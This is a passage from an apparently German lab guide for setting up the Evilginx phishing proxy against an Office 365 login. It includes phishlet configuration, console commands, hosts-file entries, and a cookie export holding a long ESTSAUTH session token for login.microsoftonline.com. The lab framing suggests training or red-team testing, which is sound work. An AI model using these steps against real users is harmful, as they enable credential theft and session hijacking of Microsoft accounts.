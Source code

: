 ```yaml
    search: "name=\"passwd\""
    type: "form"
```

### Phishlet Aktivierung
```bash
# Phishlet in Evilginx laden
./evilginx

# In Evilginx Console:
phishlets hostname office365 login.lab.test
phishlets enable office365

# Status überprüfen
phishlets list
```

## DNS Konfiguration für lokales Testing

### Hosts Datei Konfiguration
```bash
# Lokale /etc/hosts Einträge
echo "127.0.0.1 login.lab.test" | sudo tee -a /etc/hosts
echo "127.0.0.1 account.lab.test" | sudo tee -a /etc/hosts
```

## Technisches Testing und Validierung

### Manueller Testablauf
1. Lokalen Zugriff testen
   - Browser öffnen: https://login.lab.test
   - Evilginx leitet zu echtem Microsoft Login weiter

2. Session Capture testen
   - Mit Test-Account anmelden
   - Session Cookies werden von Evilginx erfasst

3. Cookie Export validieren
   - Cookies im JSON-Format exportieren
   - Struktur und Inhalte prüfen

### Cookie Export Beispiel
```bash
# Cookies einer Test-Session exportieren
sessions <session_id> cookies

# Exportiertes Format:
[
  {
    "name": "ESTSAUTH",
    "value": "1.AQwAIhJTvxD99kiso_dDohxwoVtEZUfGMrBJg-Ydk3ZSdsqWAFQMAA.AgABFwQAAABlMNzVhAPUTrARzfQjWPtKAwDs_wUA9P_uWTFYfTd6zPacfXrLQ5Z2Ql-LCljUq6FulGespSoQKe6IJCg1xSn-gU2MIMZztf_0tcUshjnof2R4rdC5dga47TfbhILdgWmfXTn35JbE8CXhkN9JXmNglVDPDl3d76QGE9BVGyPXrv5vsTbG__o7v8rnm__LrZ-Lhi51CMIoIuJ3rBQgmBGyyh6r8ZnT8nG2ExWReguVgKeUqDgtQcrI8R76iUvh7_mcxVpYBrsPuCTaoAmSuH9MApTzYTkl2Q1J77qhN09GNvge1JRlMkEyNjbcmy07ccNpJbd0mbRhnEo1zccDJ-tPdPGZ9s6yyR3RIoVBxRZOwbeEt9_3902G0Dl2ymPNtBjT0NfItgdwKU-lrXrK_W76aC_juBhYHXSDawoMjaslID0JYBJ8b2ELzXV1KlbTahkl_EvxiB_pEZlAI5B4hbWLNMILNLFr3_1NfK12pOXWhkEMrcGXv1CSlYV2yjRx7XvMjYk_zYUIsHOtCqaShKkXU9YneY-ofaaTJYFndLJK8cmS2g4iTZyA4scSVhOdEyN0fZlppjMeh3crCNhoGzHpcBKVXuX5-Z4nc-TCCvA2OQkKNPfzuvVNv2FKfAkgPZplkKl6Hh0PWJsnrWf5j4bln254J3-6Qms4QNvpRld3bwEAzySi2tOeBLAbs9pIXZGPiz9vBuYZuYXzikJEA-VeJElTRjxGFkODJ0kqtE5kzsGWKPU-ZyfBt_qsUw",
    "domain": ".login.microsoftonline.com",
    "path": "/",
    "expirationDate": 1792046014,
    "httpOnly": true,
```
